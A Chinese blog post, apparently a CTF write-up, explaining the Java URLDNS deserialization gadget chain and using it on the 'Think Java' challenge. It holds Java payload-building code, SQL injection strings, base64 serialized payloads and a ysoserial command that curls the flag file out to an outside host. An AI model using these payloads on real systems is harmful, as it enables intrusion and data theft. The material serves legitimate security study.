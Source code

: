 ```yaml
---
layout: post
title: UrlDns链
date: 2024-09-14 
tags: jekyll    

---
```

## 链分析：

给出的利用链：

```
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

URL继承了Serializable接口，所以可以反序列化

![image-20240906130431694](\images\posts\UrlDns\image-20240906130431694.png)

URL中hashCode函数调用handler的hashCode,handler的hashCode根据地址解析请求

![image-20240906130636566](\images\posts\UrlDns\image-20240906130636566.png)

![image-20240906130717402](\images\posts\UrlDns\image-20240906130717402.png)

找一个JDK自带的入口点，就是HashMap,HashMap的readObject方法里面调用了hash方法，hash方法调用了hashCode

![image-20240906131001165](\images\posts\UrlDns\image-20240906131001165.png)

![image-20240906131125602](\images\posts\UrlDns\image-20240906131125602.png)

同名函数调用就可以走到URL的hashCode方法里面

```
package org.example;
import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrlDns_Test {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        HashMap<URL, Object> hashMap = new HashMap<URL, Object>();
        URL url = new URL("http://Dnslog");
        hashMap.put(url,123);
        serialize(hashMap);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CCTest1.ser"));
        oos.writeObject(obj);
    }
}

```

但在hashMap的put方法里面也调用了hash函数，在反序列化之前就发起了Dns请求

![image-20240906131644117](\images\posts\UrlDns\image-20240906131644117.png)

URL中当hashCode=-1时才会触发handler的hashCode，hashCode初始化就是-1

![image-20240906131747810](\images\posts\UrlDns\image-20240906131747810.png)

![image-20240906131930314](\images\posts\UrlDns\image-20240906131930314.png)

所以在调用反射，在put前将其修改不为-1，put后修改回-1。

```
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
    HashMap<URL, Object> hashMap = new HashMap<URL, Object>();
    URL url = new URL("http://ensix8.dnslog.cn");
    
    Class c = url.getClass();
    Field hashCodefield = c.getDeclaredField("hashCode");
    hashCodefield.setAccessible(true);
    //随便改一个值
    hashCodefield.set(url, 12);
    hashMap.put(url, 123);
    //put后改回-1
    hashCodefield.set(url, -1);
        serialize(hashMap);
        //unserialize("CCTest1.ser");
}
public static void serialize(Object obj) throws IOException {
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CCTest1.ser"));
    oos.writeObject(obj);
}

public static Object unserialize(String filename) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
    Object obj = ois.readObject();
    return obj;
}
```

## 利用：[网鼎杯 2020 朱雀组]Think Java例子

SqlDict文件拼接SQL语句，存在SQL注入

![image-20240906214506699](\images\posts\UrlDns\image-20240906214506699.png)

路由是/common/test/sqlDict

![image-20240906214456321](\images\posts\UrlDns\image-20240906214456321.png)

网站swagger接口泄露，/swagger-ui.html的/common/test/sqlDict接口下SQL注入获取账户密码admin,admin@Rrrr_ctf_asde

```
myapp#a=' union select (select name from user)#
myapp#a=' union select (select pwd from user)#
```

admin登录后得到base64编码字符串

```
Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```

rO0AB开头，基本确定反序列化文件内容编码

/common/user/current放入请求返回得到信息

![image-20240906215618328](\images\posts\UrlDns\image-20240906215618328.png)

用之前的UrlDns链生成payload测试，在将内容base64编码

```
public class POC {
    public static void main(String[] args) throws IOException {

        File file = new File("CCTest1.ser");
        FileInputStream fis = new FileInputStream(file);
        byte[] byteArray = new byte[(int) file.length()];
        fis.read(byteArray);
        fis.close();


        String base64Encoded = Base64.getEncoder().encodeToString(byteArray);
        System.out.println("Base64 Encoded Payload: " + base64Encoded);
    }
}
```

反序列化的字符串也是rO0AB开头

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAEDNtN3B2aS5kbnNsb2cuY250AABxAH4ABXQABGh0dHBweHNyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAB7eA==
```

发送payload，带上Bearer 

```
Bearer rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAEDNtN3B2aS5kbnNsb2cuY250AABxAH4ABXQABGh0dHBweHNyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAB7eA==
```



成功收到请求

![image-20240906215339584](\images\posts\UrlDns\image-20240906215339584.png)

后面用ysoserial生成payload,再加密直接把flag外带出来就行

```
java -jar ysoserial-all.jar ROME "curl http://ip:port -d @/flag" > 1.ser
```




